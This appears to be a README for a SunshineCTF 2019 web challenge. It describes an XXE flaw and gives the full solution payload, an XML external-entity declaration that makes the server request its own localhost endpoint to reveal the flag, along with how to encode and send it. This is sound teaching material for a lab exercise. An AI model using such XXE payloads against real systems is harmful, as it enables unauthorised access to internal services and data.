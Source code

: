 # Wrestler Name Generator
Author: David Maria
CTF: [SunshineCTF 2019](2019.sunshinectf.org)
## Description
An XXE challenge. Information is submitted to the name generator as XML, so you can edit the XML that's being submitted to try to include XML external entities. Instead of having to use XXE to read a file, you have to use it to make a request to the site. Since the XML is rendered on the web server, the request made by the XML parser trying to load the external entity will be coming from localhost to the web server. The generator.php endpoint is set to echo the flag when the request to it is made from localhost.
## Solution
Send the following XML payload to the name generator:
```<?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [ <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "http://127.0.0.1/generate.php" >]>
    <input>
       <firstName>&xxe;</firstName>
       <lastName>wew</lastName>
    </input>
```

The XML should be base64 encoded, URL encoded, and sent in the input GET parameter to the generator.php endpoint.

## Deploy
Run the deploy script
 ```./deploy.sh```
 ## Maintenance
- Just restart or re-provision the Docker container.
